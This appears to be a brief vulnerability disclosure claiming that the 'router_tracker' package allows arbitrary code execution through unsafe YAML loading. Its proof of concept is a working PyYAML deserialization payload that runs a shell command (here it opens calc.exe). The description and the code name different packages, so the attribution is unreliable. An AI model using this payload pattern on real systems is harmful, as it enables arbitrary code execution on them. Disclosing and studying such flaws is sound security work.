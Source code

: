 # Description

`router_tracker` is vulnerable to `Arbitrary Code Execution` due to insecure yaml desearilization.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

_steps to reproduce:_
```python
import markup_editor

payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""
open('malicious.yaml','w+').write(payload)

markup_editor.load_yaml("malicious.yaml")
```
* `python3 exploit.py`

# Impact

Arbitrary Code Execution
